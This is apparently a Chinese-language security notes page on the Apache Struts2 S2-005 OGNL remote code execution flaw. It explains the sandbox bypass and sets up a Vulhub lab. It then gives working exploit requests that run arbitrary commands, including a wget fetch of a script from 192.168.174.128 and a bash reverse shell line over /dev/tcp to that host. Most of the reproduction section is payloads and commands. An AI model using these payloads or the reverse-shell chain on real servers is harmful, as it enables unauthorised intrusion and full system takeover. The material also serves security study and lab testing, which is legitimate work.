



# Apache Struts2 S2-005 远程代码执行漏洞

## 漏洞描述

参考吴翰清的《白帽子讲 Web 安全》一书。

> s2-005 漏洞的起源源于 S2-003(受影响版本: 低于 Struts 2.0.12)，struts2 会将 http 的每个参数名解析为 OGNL 语句执行 (可理解为 java 代码)。OGNL 表达式通过#来访问 struts 的对象，struts 框架通过过滤#字符防止安全问题，然而通过 unicode 编码 (\u0023) 或 8 进制 (\43) 即绕过了安全限制，对于 S2-003 漏洞，官方通过增加安全配置 (禁止静态方法调用和类方法执行等) 来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用 OGNL 表达式将这 2 个选项打开，S2-003 的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork 会将 GET 参数的键和值利用 OGNL 表达式解析成 Java 语句，如：

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合 OGNL 的沙盒绕过方法，组成了 S2-003。官方对 003 的修复方法是增加了安全模式（沙盒），S2-005 在 OGNL 表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用 `\u0023` 绕过 s2 对 `#` 的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用 OGNL 表达式将沙盒关闭，继续执行代码

漏洞详情:

- http://struts.apache.org/docs/s2-005.html

## 漏洞影响

影响版本: 2.0.0 - 2.1.8.1

## 环境搭建

Vulhub 执行以下命令启动 s2-005 测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

执行任意命令 POC（无回显，空格用 `@` 代替）：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/awesome_poc%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36
```



命令 `touch /tmp/awesome_poc` 成功执行：



网上一些 POC 放到 tomcat8 下会返回 400，研究了一下发现字符 `\`、`"` 不能直接放 path 里，需要 urlencode，编码以后再发送就好了。这个 POC 没回显。

POC 用到了 OGNL 的 Expression Evaluation：


大概可以理解为，`(aaa)(bbb)` 中 aaa 作为 OGNL 表达式字符串，bbb 作为该表达式的 root 对象，所以一般 aaa 位置如果需要执行代码，需要用引号包裹起来，而 bbb 位置可以直接放置 Java 语句。`(aaa)(bbb)=true` 实际上就是 `aaa=true`。不过确切怎么理解，还需要深入研究，有待优化。

### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22wget@192.168.174.128/shell.sh%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
```

执行 shell.sh 文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22bash@/usr/local/tomcat/shell.sh%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
```

成功接收反弹 shell：


